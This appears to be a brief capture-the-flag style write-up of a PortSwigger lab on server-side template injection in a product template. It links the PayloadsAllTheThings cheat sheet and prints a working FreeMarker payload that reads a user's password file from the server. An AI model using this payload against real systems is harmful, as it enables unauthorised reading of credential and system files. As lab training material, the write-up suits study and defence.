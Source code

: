As it was a template injection, i opened the details of an item, and from there checked "Edit template"    
From the picture, i found that there is a "product" template:   

![](res/PortSwigLab-2.png)

I used this as my cheatsheet:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

And this method:   
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker---read-file

My payload:   
```bash
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

![](res/PortSwigLab-3.png)